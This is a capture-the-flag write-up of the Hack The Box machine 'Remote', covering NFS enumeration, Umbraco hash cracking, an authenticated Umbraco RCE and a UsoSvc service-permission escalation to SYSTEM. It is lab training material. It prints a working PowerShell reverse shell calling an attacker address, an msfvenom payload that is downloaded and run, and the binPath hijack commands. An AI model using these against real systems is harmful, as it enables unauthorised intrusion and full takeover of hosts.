

Remote is a Windows machine rated Easy on HTB.

## Information Gathering and Vulnerability Identification

### Port Scan

`nmap -sC -sV -oA initial 10.10.10.180`

```
Nmap scan report for 10.10.10.180
Host is up (0.25s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|_  SYST: Windows_NT
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  mountd        1-3 (RPC #100005)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 3m04s
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-03-25T06:36:52
|_  start_date: N/A
```

### HTTP Recon

The web server shows a website belonging to ACME widgets.


It looks like a CMS.

**Nikto**  finds reveals that the CMS is [Umbraco](https://umbraco.com/), an open .NET CMS.

```
root@kali:~/htb/remote# nikto -host 10.10.10.180
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.180
+ Target Hostname:    10.10.10.180
+ Target Port:        80
+ Start Time:         2020-03-25 16:25:14 (GMT8)
---------------------------------------------------------------------------
<SNIP>
+ /umbraco/ping.aspx: Umbraco ping page found
<SNIP>
```

There are a couple of exploits for Umbraco. The RCE exploit looks interesting, but we need authentication for it to work.

```
root@kali:~/htb/remote# searchsploit umbraco
------------------------------------------------------------ ----------------------------------------
 Exploit Title                                              |  Path
                                                            | (/usr/share/exploitdb/)
------------------------------------------------------------ ----------------------------------------
Umbraco CMS - Remote Command Execution (Metasploit)         | exploits/windows/webapps/19671.rb
Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution  | exploits/aspx/webapps/46153.py
Umbraco CMS SeoChecker Plugin 1.9.2 - Cross-Site Scripting  | exploits/php/webapps/44988.txt
------------------------------------------------------------ ----------------------------------------
```

And since we know that the CMS is Umbraco, some online research will show that its default login page is at **/umbraco**. However, we have no credentials at this point.

### Enumerate NFS Shares

The port scan reveals that the machine is running:

* FTP
* NFS
* SMB

Although FTP allows anonymous access, it seems empty. SMB seems to require credentials that we don't have.

But NFS was fruitful.

```
root@kali:~/htb/remote# showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)
```

`showmount -e` shows the [exported NFS shares](https://linux.die.net/man/8/showmount).

Let's try mounting the `/site_backups` share to a mount point we created under `/mnt`

`mount -t nfs 10.10.10.180:/site_backups /mnt/remote`

### Search For Credentials

As expected, the mount contains a backup of the Umbraco CMS.

Let's search for credentials.

In our earlier research into Umbraco, we found [this discussion on resetting password](https://our.umbraco.com/forum/using-umbraco-and-getting-started/93045-cant-reset-admin-password-in-umbraco-7). It mentions that the password hash is stored in a database file `/App_Data/Umbraco.sdf`

On a Windows machine, let's download the SDF Viewer program and install it. However, when we try opening the Umbraco.sdf file, it reports that the file is corrupted.



So let's try grepping for information directly from the file. As Umbraco.sdf is not a text file, we should get strings of text out of it before grepping.

Umbraco uses HMACSHA1 which produces 160-bit hashes usually stored as a 40-digit hex string.

Hence, we grep for the regular expression containing at least 40 characters from the [hex character set](https://stackoverflow.com/questions/15789005/how-to-grep-for-a-7-digit-hexadecimal-string-and-return-only-that-hexadecimal-st) `[0-9a-f]`.

```
root@kali:~/htb/remote# strings Umbraco.sdf | egrep '[0-9a-f]{40}'
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
```

We find a set of credentials to crack.

### Cracking Hashes

To use John the Ripper to crack the hash, we use the following command.
```
root@kali:~/htb/remote# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
<SNIP>
baconandcheese   (?)
1g 0:00:00:02 DONE (2020-03-30 11:23) 0.4184g/s 4110Kp/s 4110Kc/s 4110KC/s baconandchipies1..baconandcabbage
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed
```
We can also use a online hash cracker like [Crack Station](https://crackstation.net/) which might be faster if the password is already in their pre-computed lookup tables.

Now we have a set of credentials that we can try to login with.

* username:admin@htb.local
* password:baconandcheese


We have logged on successfully.

As we can see from the screenshot above, **the Umbraco version is 7.12.4.** Hence, we can try the RCE exploit we found earlier.

## Attacks and Exploits

### Getting The Umbraco Exploit

This is a RCE vulnerability that requires a login which we have now.

The exploit is very well-documented, you can look through it to understand what it does. With searchsploit, you can mirror the exploit with the command below.

`searchsploit -m exploits/aspx/webapps/46153.py`

There's also a Metasploit module listed but we are doing this without Metasploit.

### Verifying The Exploit

Let's verify that the exploit is working with a simple command (like ping or id). It makes for easier troubleshooting.

So here, let's try to get Remote to ping our machine.

First, let's change the payload to start `cmd.exe` with the argument `/c ping 10.10.10.10`.

```
string cmd = "/C ping 10.10.X.X"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
proc.StartInfo.FileName = "cmd.exe"; proc.StartInfo.Arguments = cmd;\
proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; }
```

We also need to replace the **username** and **password** with the credentials we've obtained.

In another terminal window, let's listen for pings using `tcpdump`. After executing the exploit, we receive pings from 10.10.10.180.

Great, the exploit is working.

```
root@kali:~/htb/remote# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
22:44:03.444458 IP 10.10.10.180 > kali: ICMP echo request, id 1, seq 1, length 40
22:44:03.445072 IP kali > 10.10.10.180: ICMP echo reply, id 1, seq 1, length 40
```

### Encoding Our Payload

From [this page](https://delta.navisec.io/reverse-shell-reference/#powershell), we find a nice reverse shell code for powershell.

```
$client = New-Object System.Net.Sockets.TCPClient("10.10.X.X",8888);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
The payload code (as it is) will break the XSLT file. So let's base64 encode it.

`cat psreverse.txt | iconv -f UTF8 -t UTF16LE | base64 -w0`

* `psreverse.txt` stores a copy of our reverse shell
* `iconv` converts the format from UTF8 to UTF16LE, as [Windows uses UTF16 (Little Endian) by default](https://en.wikipedia.org/wiki/UTF-16)

### Modifying The Exploit

Changes we need to make:

* `string cmd = "-encoded <insertbase64stringofreverseshell>";`
* `proc.StartInfo.Filename = "powershell.exe";`

These changes will get [powershell to execute a base64 encoded command](https://ridicurious.com/2018/05/28/encoded-commands/).

### Exploiting

After executing the exploit with the modified payload, we get a reverse shell from Remote.

```
root@kali:~/htb/remote# nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.180] 51745
whoami
iis apppool\defaultapppool
PS C:\windows\system32\inetsrv>
```
The user.txt is in `C:\Users\Public`.

## Privilege Escalation

[This is a great guide for window privilege escalation](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html).

My first step is to run systeminfo and feed its output to windows exploit suggestor. But it did not return anything exploitable.

### Weak Permissions

Before we check for useful permissions, it helps to know which groups we belong to.

```
PS C:\windows\temp> whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
                                     Unknown SID type S-1-5-82-0   Mandatory group, Enabled by default, Enabled group
```

Now that we know which groups we belong to, we can check the relevant permissions using `accesschk` from sysinternals.

```
PS C:\windows\temp> ./accesschk /accepteula -uwcqv "NT AUTHORITY\SERVICE" *

Accesschk v6.12 - Reports effective permissions for securable objects
Copyright (C) 2006-2017 Mark Russinovich
Sysinternals - www.sysinternals.com

RW UsoSvc
	SERVICE_ALL_ACCESS
```

`SERVICE_ALL_ACCESS` means that we have full access to UsoSvc including the ability to change its configuration and restart it. [More information on service access.](https://docs.microsoft.com/en-us/windows/win32/services/service-security-and-access-rights)

Let's check the configuration of UsoSvc. We can do this using the [Service Control command-line tool (sc.exe)](https://ss64.com/nt/sc.html).

```
PS C:\windows\temp> sc.exe qc UsoSvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: UsoSvc
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 2   AUTO_START  (DELAYED)
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k netsvcs -p
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Update Orchestrator Service
        DEPENDENCIES       : rpcss
        SERVICE_START_NAME : LocalSystem
```

UsoSvc is the Update Orchestrator Service. It is a Windows service that downloads, installs, and verifies updates. Given that it arranges updates, it runs as `LocalSystem`. [Learn more about this CVE here.](https://www.nccgroup.trust/sg/about-us/newsroom-and-events/blogs/2019/november/cve-2019-1405-and-cve-2019-1322-elevation-to-system-via-the-upnp-device-host-service-and-the-update-orchestrator-service/)

We have full access over a service that runs as system. Sounds fun?

When exploiting weak service permissions, the **BINARY_PATH_NAME** is of particular interest to us. This is because this path is executed whenever the service is started.

This means that if we can alter this path to point to the binary we want to execute. Let's do that now.

```
PS C:\windows\temp sc.exe config "UsoSvc" binPath="C:\Windows\Temp\shell.exe"
[SC] ChangeServiceConfig SUCCESS

S C:\windows\temp> sc.exe qc UsoSvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: UsoSvc
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 2   AUTO_START  (DELAYED)
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\Temp\shell.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Update Orchestrator Service
        DEPENDENCIES       : rpcss
        SERVICE_START_NAME : LocalSystem
```

Now the BINARY_PATH_NAME points to shell.exe in the Temp folder. Let's generate a binary and place it in the Temp folder.

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.X.X LPORT=5555 -f exe > shell.exe`

After generating the shell binary, let's serve it up and download it into the Temp folder.

On Remote: `Invoke-WebRequest -Uri http://10.10.X.X:8000/shell.exe -OutFile shell.exe`

Now, let's start the service to trigger the execution of the binary path. (Don't forget to start a reverse handler before that.)

```
PS C:\windows\temp> sc.exe start UsoSvc
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

The service failed to start because the binary path has been changed by us, so that's not surprising.

But did it execute successfully?

Yes it did.

```
root@kali:~/htb/remote# nc -nvlp 5555
listening on [any] 5555 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.180] 49787
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

If you want to use Metasploit for exploiting weak service permissions, use the module `exploit/windows/local/service_permissions`.

## Thoughts

I've rooted a number of active boxes before this. But this is the first active box I've rooted without referring to the forum.

However, I did use Metasploit for privilege escalation the first time round, before learning to exploiting the same vulnerability manually with the help of accesschk. (I try to avoid Metasploit use as OSCP restricts it.) 
